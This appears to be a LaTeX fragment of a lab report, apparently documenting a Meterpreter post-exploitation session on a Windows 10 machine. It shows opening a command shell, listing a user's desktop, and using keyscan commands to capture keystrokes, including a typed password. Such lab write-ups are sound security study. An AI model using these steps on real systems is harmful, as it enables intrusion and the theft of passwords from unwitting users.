 \documentclass[journal,twoside]{IEEEtran}
\begin{document}
\subsubsection{Shell Access}
Shell access was obtained using:

\begin{verbatim}
meterpreter > shell
Process 10328 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19043.1165]
(c) Microsoft Corporation. All rights reserved.

C:\Users\amshu\Downloads>
\end{verbatim}

This provided direct command-line access to the target system, allowing execution of arbitrary commands.

\subsubsection{File System Access}
We accessed the file system and listed directory contents:

\begin{verbatim}
C:\Users\amshu\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 6017-91CE

 Directory of C:\Users\amshu\Desktop

09/07/2021  11:05 AM    <DIR>          .
09/07/2021  11:05 AM    <DIR>          ..
09/07/2021  11:05 AM               355 Computer - Shortcut.lnk
               1 File(s)            355 bytes
               2 Dir(s)  20,036,415,488 bytes free
\end{verbatim}

\subsubsection{Keylogging}
We demonstrated keylogging capabilities using:

\begin{verbatim}
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes ...
<Shift>Hello everyone<Shift><Shift><Shift><Shift><Shift><Shift><Shift>
!<Shift> !!<CR>
password <Shift>: admin123

meterpreter > keyscan_stop
Stopping the keystroke sniffer...
\end{verbatim}

This demonstrated the ability to capture sensitive information such as passwords entered on the target system.
\end{document}
